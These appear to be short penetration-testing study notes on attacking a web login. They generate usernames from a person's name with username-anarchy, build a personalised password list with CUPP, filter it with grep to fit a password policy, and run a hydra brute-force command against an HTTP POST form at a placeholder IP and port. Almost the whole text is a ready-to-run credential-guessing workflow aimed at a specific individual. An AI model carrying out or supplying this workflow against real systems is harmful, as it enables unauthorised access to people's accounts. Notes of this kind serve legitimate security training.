 


(Ruby) Username list generator
```shell-session
git clone https://github.com/urbanadventurer/username-anarchy.git
```

```shell-session
./username-anarchy Jane Smith > jane_smith_usernames.txt
```

Password list generator
```shell-session
sudo apt install cupp -y
```

Interactive mode
```shell-session
cupp -i
```



Filtering
```shell-session
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```
![[Pasted image 20241016195900.png]]

Apply user list and password list
```shell-session
hydra -L usernames.txt -P jane-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
```

